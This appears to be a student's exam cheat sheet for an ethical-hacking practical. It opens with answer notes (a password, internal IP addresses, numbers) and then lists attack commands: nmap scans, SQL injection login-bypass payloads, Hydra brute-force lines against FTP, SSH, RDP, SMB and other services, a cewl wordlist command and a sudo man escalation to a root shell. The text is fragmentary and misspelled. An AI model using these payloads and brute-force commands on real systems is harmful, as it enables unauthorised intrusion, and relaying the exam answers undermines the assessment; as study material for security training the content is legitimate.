Q-7
Secret123


Q-20 
ip ADDRESS 172.16.0.40

Q-4 
pass- test
4700056

Q-5 450989878899 

Q-12 F/N 201010988818

Q19 ANDERIOD
 IP 172.16.0.38

1876890


### Windows accounts find:
open the windows cmd
```
$ net user
```
### Host finder:
  Zenmap
 
### FTP Burteforce:
pass wordlist in the windows system. After the login FTP server

### Nmap Command:

$ nmap IP -sV -sC -p -O

### RDP Remote Desktop Connectiom

which IP remote machine service is running?
```
$ nmap IP -sV
```
## SQL Injection:
cookie based sql

### HTTP Vulnerability:
which http request has vulnerability?
```
$ use owaspzap  GET/POST
```
### Cryptography
```
cryptool
BCtextencoder
hash calc
veracrypt
```
### SQL payloads
```
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—
```
### Hydra
```
    hydra -l root -P passwords.txt [-t 32] <IP> ftp
    hydra -L usernames.txt -P pass.txt <IP> mysql
    hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
    hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
    hydra -P common-snmp-community-strings.txt target.com snmp
    hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
    hydra -l root -P passwords.txt <IP> ssh
 ```
### Making custom wordlist from website keywords:
   $ cewl example.com -m 5 -w words.txt
   
   m= pass lenght
   w= output file
### wireshark
https://unit42.paloaltonetworks.com/using-wireshark-display-filter-expressions/

### Root privilege Escln
  ```
  $ sudo man man
  $ !/bin/bash
```
